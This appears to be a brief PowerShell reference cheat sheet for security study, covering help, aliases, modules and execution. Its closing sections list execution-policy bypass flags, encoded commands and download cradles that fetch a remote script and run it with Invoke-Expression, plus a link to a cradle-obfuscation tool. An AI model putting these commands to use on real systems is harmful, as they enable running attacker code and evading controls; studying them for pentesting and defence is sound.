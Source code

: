 # Help System
`Get-Help Get-Process`
`help Get-Process`
`Update-Help`

`Get-Help remoting`
`Get-Help about_*remot*`

`Get-Command -CommandTyle Cmdlet`

# Basic Constructs

Cmdlets
Function

# Aliases

`Get-Alias -Name ps`
`Get-Alias -Definition Get-Process`

# Execution Policy

* Not a security feature
* Used to avoid accidental script execution
* Can be bypass with:
  * `powershell -executionpolicy bypass .\example.ps1`
  * `powershell -c <cmd>`
  * `powershell -enc`

# Modules

`Import-Module <path_to_module> -verbose`
`Get-Module -ListAvailable`
`Get-Command -Module <module_name>`

# Remote Script execution

* `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
* `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
* `powershell -EncodedCommand <Base64EncodedCommand>`

* Craft Download Cradles: https://github.com/danielbohannon/Invoke-CradleCrafter
